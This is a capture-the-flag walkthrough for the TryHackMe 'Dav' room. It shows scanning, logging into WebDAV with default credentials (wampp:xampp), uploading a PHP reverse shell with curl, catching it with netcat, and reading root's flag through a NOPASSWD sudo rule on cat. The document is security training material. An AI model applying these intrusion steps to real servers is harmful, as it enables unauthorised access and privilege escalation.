




---

Name: Dav
Difficulty: Easy
URL: https://tryhackme.com/room/bsidesgtdav

---

# 0. Setup
Adding the ip address in /etc/hosts so we can access the website via dav.thm
```bash
nvim /etc/hosts

10.114.142.93   dav.thm
```

Starting the vpn
```bash
openvpn try_hack_me.ovpn
```

Lastly, checking the connectivity
```bash
ping dav.thm -c 4

PING dav.thm (10.114.68.172) 56(84) bytes of data.
64 bytes from dav.thm (10.114.68.172): icmp_seq=1 ttl=62 time=39.6 ms
64 bytes from dav.thm (10.114.68.172): icmp_seq=2 ttl=62 time=55.1 ms
64 bytes from dav.thm (10.114.68.172): icmp_seq=3 ttl=62 time=56.4 ms
64 bytes from dav.thm (10.114.68.172): icmp_seq=4 ttl=62 time=39.7 ms

--- dav.thm ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 39.643/47.710/56.409/8.076 ms
```

# 1. Solution
## Initial recon
We start by looking at the open ports 
```bash
rustscan -a dav.thm --ulimit 5000 -- -sC -sV
```

And only find a web server running on port 80
```bash
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Now let's look at the files on the server. For this I am using gobuster
```bash
gobuster dir -u http://dav.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 10 -x txt,php,html,bak,zip,log
```

I got some timeout errors and decided to use something not as powerful as gobuster, dirsearch (https://github.com/maurosoria/dirsearch), and found /webdav/
```bash
python3 dirsearch.py -u 'http://dav.thm/'

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12295

Target: http://dav.thm/

[17:20:00] Scanning:
[17:20:05] 403 -   287B - /.php3
[17:20:05] 403 -   286B - /.php
[17:21:13] 200 -   11KB - /index.html
[17:21:22] 403 -   295B - /server-status
[17:21:22] 403 -   296B - /server-status/
[17:21:27] 401 -   454B - /webdav/
[17:21:27] 401 -   454B - /webdav/index.html
[17:21:27] 401 -   454B - /webdav/servlet/webdav/

Task Completed
```

Sadly it requires a password



We look for default credentials and find this https://gist.github.com/kaiquepy/fd02275785ef7c8b6e6cb308654960d9
```txt
wampp:xampp
webdav:webdav
jigsaw:jigsaw
```

And this one works
```txt
wampp:xampp
```

We now find password.dav



```txt
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

We can also upload files
```bash
curl -u wampp:xampp -T test.txt http://dav.thm/webdav/test.txt
```

We go to https://www.revshells.com/ to generate the php rev shell




Now we upload it and start the listener
```bash
curl -u wampp:xampp -T shell.php http://dav.thm/webdav/shell.php
```
```bash
nc -lvnp 4444
```



## First flag
We are logged in as www-data, but we can still read the flag from /home/merlin/user.txt
```bash
cat /home/merlin/user.txt
```

## Second flag
We run sudo -l to find out which commands we can run with sudo
```bash
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Since we can run /bin/cat as root with no password required, we just read the flag
```bash
sudo /bin/cat /root/root.txt
```
